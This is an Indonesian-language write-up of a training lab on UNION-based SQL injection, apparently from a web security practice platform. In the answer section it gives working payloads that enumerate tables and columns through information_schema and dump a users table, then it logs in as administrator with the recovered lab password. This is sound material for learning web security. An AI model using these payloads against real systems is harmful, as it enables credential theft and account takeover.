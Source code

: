 Write-up: SQL Injection - Mengambil Isi Database Non-Oracle
1. [Soal]
Lab ini memiliki kerentanan SQL injection di filter kategori produk. Kita perlu melakukan serangan UNION untuk menemukan nama tabel dan kolom yang berisi kredensial pengguna, kemudian mengambil kredensial tersebut untuk login sebagai administrator.

2. [Analisis Kerentanan]
Sama seperti lab sebelumnya, kerentanan terjadi karena aplikasi secara langsung memasukkan input pengguna ke dalam query SQL, yang memungkinkan kita menyuntikkan query tambahan dengan operator UNION.

Di lab ini, kita tidak mengetahui nama tabel atau kolom tempat kredensial pengguna disimpan. Oleh karena itu, kita harus melakukan "rantai serangan" dengan menginterogasi database itu sendiri menggunakan skema information_schema.

3. [Jawaban & Bukti]
Langkah 1: Menemukan Nama Tabel Pengguna
Pertama, kita menyuntikkan query untuk mengambil nama-nama semua tabel dari information_schema.tables yang merupakan bagian dari setiap database non-Oracle.

Payload: '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--

Hasil: Anda menemukan tabel yang relevan: users_pzneaq.

Langkah 2: Menemukan Nama Kolom Kredensial
Dengan nama tabel, kita menyuntikkan query lain untuk mengambil nama-nama kolom dari tabel tersebut melalui information_schema.columns.

Payload: '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_pzneaq'--

Hasil: Anda menemukan nama kolom username_dhvbbq dan password_vyfgyf.

Langkah 3: Mengambil Data Kredensial
Sekarang kita memiliki semua informasi yang dibutuhkan. Kita dapat membuat query final untuk mengambil data dari kolom username_dhvbbq dan password_vyfgyf di dalam tabel users_pzneaq.

Payload: '+UNION+SELECT+username_dhvbbq,password_vyfgyf+FROM+users_pzneaq--

Hasil: Halaman web menampilkan daftar lengkap username dan password.  Dari sana, Anda menemukan kredensial administrator:

Username: administrator

Password: d7rxkwdmbjrrezdb61ia

Langkah 4: Login sebagai Administrator
Langkah terakhir adalah menggunakan kredensial yang ditemukan untuk login ke aplikasi. Setelah berhasil, lab akan selesai.

Bukti: Tangkapan layar yang menunjukkan Anda berhasil login sebagai administrator.

4. [Catatan Hasil Percobaan]
Keberhasilan: Serangan berhasil.

Refleksi: Lab ini adalah puncak dari pemahaman UNION attack. Ini menunjukkan bagaimana serangkaian query dapat dihubungkan bersama untuk mengeksplorasi struktur database yang tidak diketahui.

Pembelajaran: Keterampilan ini, yang dikenal sebagai database enumeration, sangat penting dalam penetration testing karena memungkinkan Anda untuk beradaptasi dengan sistem yang berbeda dan mengambil informasi berharga secara sistematis.